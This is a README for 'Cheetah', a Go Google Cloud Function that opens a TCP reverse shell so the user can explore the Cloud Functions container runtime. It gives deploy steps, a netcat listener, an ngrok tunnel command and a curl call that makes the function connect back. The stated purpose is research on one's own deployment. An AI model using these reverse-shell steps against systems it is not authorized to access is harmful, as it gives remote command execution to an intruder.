 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Serverless Framework](https://serverless.com/framework/docs/providers/aws/guide/installation#installing-the-serverless-framework)

## Creating The Function

```
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow the steps at the top of the `serverless.yml` file to generate a credentials file. Modify the `serverless.yml` file to point to your GCP project ID and the **absolute path** of the credentials file.

```
npm install
serverless deploy
```

## Usage

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```
ngrok tcp 4444
```

Navigate to your function, supplying your connection details:

```
curl 'http://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```
serverless remove
```

## Linting

```
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
